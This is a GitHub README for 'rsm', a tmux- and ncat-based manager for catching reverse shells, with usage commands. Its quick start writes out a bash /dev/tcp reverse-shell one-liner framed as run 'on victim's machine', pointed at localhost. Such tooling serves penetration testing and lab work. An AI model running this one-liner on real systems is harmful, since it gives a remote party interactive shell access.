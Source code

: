 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Quick Start

Listening on a port

```shell
git clone https://github.com/djosix/rsm.git
cd rsm

./rsm 11111
# You will attach to a tmux session called 'rsm-11111',
# where 11111 is your listening port.
```

On victim's machine, launch a reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/11111 0<&1'
# Once connected to the listening port,
# the script will create a window in our tmux session.
# Just switch to that window and interact with the client.
```

Attaching to the last rsm session

```shell
./rsm attach
```

Stop the server and cleanup

```shell
./rsm stop
# Stop all rsm listeners
```

## Install

```shell
git clone --depth 1 https://github.com/djosix/rsm.git ~/.rsm
# Then add $HOME/.rsm to your PATH
```

## Usage

```shell
$ rsm help
Usage:

    rsm PORT            Start a reverse shell listener on PORT
    rsm -d PORT         Start a detatched reverse shell listener on PORT
    rsm list            List active rsm listeners
    rsm info PORT       Show details of listener on PORT
    rsm info            Show details of all rsm listeners
    rsm stop PORT       Stop a rsm listener on PORT
    rsm stop            Stop all rsm listeners
    rsm attach PORT     Attach to a rsm session listening on PORT
    rsm attach          Attach to the last rsm session
    rsm clean PORT      Clean sockets for PORT
    rsm clean           Clean all sockets
    rsm help            Show this help message
```
